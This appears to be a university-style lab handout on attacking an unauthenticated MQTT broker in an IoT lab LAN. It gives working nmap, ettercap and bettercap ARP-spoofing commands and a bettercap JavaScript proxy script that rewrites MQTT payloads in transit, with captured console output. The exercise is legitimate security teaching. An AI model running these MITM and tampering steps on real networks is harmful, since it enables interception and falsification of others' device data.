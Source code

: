 # Lab 3: LAN Exploits

Your goal is to attack known vulnerabilities in the target system.

## 1. MQTT MITM

### 1.1. Scenario

The attacker has gained access to an IoT LAN network, and has collected information on hosts on the network, their IPs, open ports and services. Through service scan an unprotected MQTT broker has been discovered.

The attacker then aims to discover MQTT clients and start modifying the their published messages. This requires a Man-in-the-middle (MITM) attack.

### 1.2. Document MQTT packet flow

You should have a working setup with ESP32 publishing MQTT data to a topic that it also subscribes and prints to console. So every new data message is sent to broker and received from broker. The messages travel over multiple layer 2 hops as shown in template diagram below. Your first task is to document the current setup as sequence diagram, showing the source and destination addresses for each data frame (both MAC and IP). The first hop is from my setup as an example. Update all participant addresses and message IP/MAC endpoints based on your setup.

The general logic is that

- On layer 3 (IP addressing) the packets contain source and destination IPs according to endpoints, except that in NAT translation the private network endpoint is changed to NAT public side IP.
- For each layer 2 hop, the MAC addresses should be according to hop endpoints.

To obtain the data,

- ESP32 IP/MAC addresses and data frame sample you can get from raspi using tcpdump `sudo tcpdump -e -i wlan0 tcp port 1883`
- raspi eth0 traffic similarly: `sudo tcpdump -e -i eth0 tcp port 1883`
- broker traffic: `docker exec -it mosquitto tcpdump -e -i eth0 tcp port 1883`
  '
  Update the diagram and submit to your repo as `normal-mqtt-flow.md`

```mermaid
sequenceDiagram
    participant ESP32 as ESP32<br>192.168.99.242<br>54:32:04:07:16:68
    participant RaspiAP as RasPi AP<br>192.168.99.1<br>dc:a6:32:18:74:d9
    participant Raspi as RasPi eth0<br>192.168.1.39
    participant ERX as ER-X<br>192.168.1.1
    participant broker as MQTT broker<br>192.168.1.13
    ESP32->>+RaspiAP: 192.168.99.242 --> 192.168.1.13 <br> 54:32:04:07:16:68 --> dc:a6:32:18:74:d9
    RaspiAP->>Raspi: (NAT address translation)
    Raspi ->> ERX: 192.168.1.39 --> 192.168.1.13
    ERX ->> broker: 192.168.1.39 --> 192.168.1.13
    broker ->> ERX: add
    ERX ->> Raspi: add
    Raspi ->> RaspiAP: (NAT address translation)
    RaspiAP ->> ESP32: add
```

### 1.3 MITM to discover MQTT clients

1. Install `mosquitto-clients` on kali VM
2. As the attacker to discover if there are running MQTT services in network, perform a port scan for default MQTT port 1883 being open in any of the hosts within LAN: In Kali VM, `nmap 192.168.1.0/24 -p 1883 --open` and you get broker IP.
3. Knowing from previous lab, the broker doesn't require authentication. Now having the broker IP, just listen to wildcard traffic `mosquitto_sub -v -h <broker-ip> -t "#"` we can receive all topics and messages. You can now see the data, but you do not know who is the sensor device publishing that data.
4. The messages don't give any info on sender devices, so we don't know publisher IP addresses. We'll use **ARP poisoning** to get into message flow so that we can see the actual messages sent from ESP to MQTT broker:
   a) In kali vm, open wireshark on eth0 and set display filter to `mqtt`
   b) If you are listening to wildcard traffic in terminal, you see those packets sent to your kali vm IP address. Next, **stop the mosquitto_sub command** and restart wirteshark capture to get clean display.
   c) To find out who (what IP addresses) are mqtt clients, you'll tell to all devices in network that broker IP belongs to kali MAC. So all mqtt clients' messages will appear in kali port 1883. - mqtt client sends ethernet frame (containing IP packet (containing MQTT publish message)) to destination MAC address. Because of ARP poisoning, that destination MAC is kali MAC. - kali receives the packet (as shown in wireshark capture), and forwards it to original broker MAC address. The frame contains original IP addresses and mqtt content.
   Start MITM attack with `sudo ettercap -T -M arp:remote /192.168.1.13// ///` (replace IP with your mosquitto container IP). Check kali wireshark: You can now see MQTT messages and sender IP, right?
   d) Document the current the setup as `mitm-mqtt-flow.md` : Add node kali in the interception point, and add + change the necessary message frame addresses according to this MITM setup.
   e) Stop the ettercap MITM with ctrl-C.

### 1.4 Modifying the data frames sent by ESP

Next your aim is not only to intercept the MQTT traffic from ESP to broker, but want to modify the packet contents as well. This can be done with `ettercap`, but for more flexibility will switch `bettercap` tool.

Open wireshark in kali. Set display filter mqtt. Initially you dont see any mqtt packets.

In kali `sudo apt install bettercap`

To see who are clients (just to replicate the step you already did with ettercap):

```
┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.13; set net.sniff.verbose true; set net.sniff.local false; arp.spoof on; net.sniff on"

```

The previous ARP poisoning affected all devices in LAN. Next we focus only on traffic between two devices, ESP32 and the broker:

```
┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.1,192.168.1.13; set arp.spoof.fullduplex true; set net.sniff.verbose false; set net.sniff.local false; arp.spoof on; net.sniff on"
```

To modify the packet content we use a JavaScript filter `replace.js`. Create it on kali with with content is as printed with command below (in repository there is longer more refined version, but the basic functionality is the same):

```
┌──(kali㉿kali)-[~]
└─$ cat replace.js
function onLoad() {
  console.log("[+] TCP Proxy Script Loaded.");
}

function onData(from, to, data, callback) {
    // Convert byte array to string
    var payload = "";
    for (var i = 0; i < data.length; i++) {
        payload += String.fromCharCode(data[i]);
    }

    console.log("[*] Intercepted Data: " + payload);

    // Check if the payload contains the string "data"
    if (payload.indexOf("data") !== -1) {
        // Replace "data" with "XXXX"
        var modifiedPayload = payload.replace(/data/g, "XXXX");
        console.log("[*] Modified MQTT Payload: " + modifiedPayload);

        // Modify the original data array in place
        for (var i = 0; i < modifiedPayload.length; i++) {
            data[i] = modifiedPayload.charCodeAt(i) & 0xFF;
        }

        console.log("[*] Returning modified packet.");
        return data; // Return the modified original data object
    }

    console.log("[*] No modification applied.");
    return data; // Return the original data object if no modification
}

```

Check your kali IP and modify the MITM message modification accordingly:

```
┌──(kali㉿kali)-[~]
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:05:20:16 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.41/24 brd 192.168.1.255 scope global dynamic noprefixroute eth0
       valid_lft 61138sec preferred_lft 61138sec
    inet6 fe80::be24:11ff:fe05:2016/64 scope link noprefixroute
       valid_lft forever preferred_lft forever

┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.1,192.168.1.13; set arp.spoof.fullduplex true; set net.sniff.verbose false; set net.sniff.local false; set tcp.proxy.script replace.js; set tcp.proxy.address 192.168.1.41; set tcp.proxy.port 1884; set tcp.address 192.168.1.13; set tcp.port 1883; tcp.proxy on; arp.spoof on; net.sniff on"


```

In kali, you should see messages like below, and in ESP vscode terminal you should see that subscribed data has modified content too.

```
[11:01:43] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:43] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] Intercepted Packet From: 192.168.1.39 To: 192.168.1.13
[*] Intercepted Data: 0
                       /topic/qos0data8
[*] Modified MQTT Payload: 0
                            /topic/qos0XXXX8
[*] Returning modified packet.
[11:01:44] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:44] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] Intercepted Packet From: 192.168.1.39 To: 192.168.1.13
[*] Intercepted Data: 0
                       /topic/qos0data9
[*] Modified MQTT Payload: 0
                            /topic/qos0XXXX9
[*] Returning modified packet.
[11:01:45] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:45] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » q
[11:01:45] [sys.log] [inf] arp.spoof waiting for ARP spoofer to stop ...
[11:01:45] [sys.log] [inf] arp.spoof restoring ARP cache of 2 targets.

┌──(kali㉿kali)-[~]
└─$

```
